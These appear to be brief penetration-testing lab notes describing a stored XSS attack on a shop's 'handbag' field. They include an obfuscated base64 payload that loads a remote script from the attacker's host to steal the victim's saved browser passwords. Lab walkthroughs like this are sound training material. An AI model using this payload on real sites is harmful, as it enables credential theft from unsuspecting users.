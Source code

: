 open `python3 http server`
![[Pasted image 20241223192908.png]]
submit the payload `'+btoa(eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjMzL3hzc3NhdmVkcGFzc3dvcmRzLmpzJykK')))+'` in the handbag section, and it will pull over and execute the `xsssavedpasswords.js` and pull the saved passwords back to kali. 

make sure to render on the victim side

![[Pasted image 20241223192802.png]]
profit and get password
![[Pasted image 20241223193213.png]]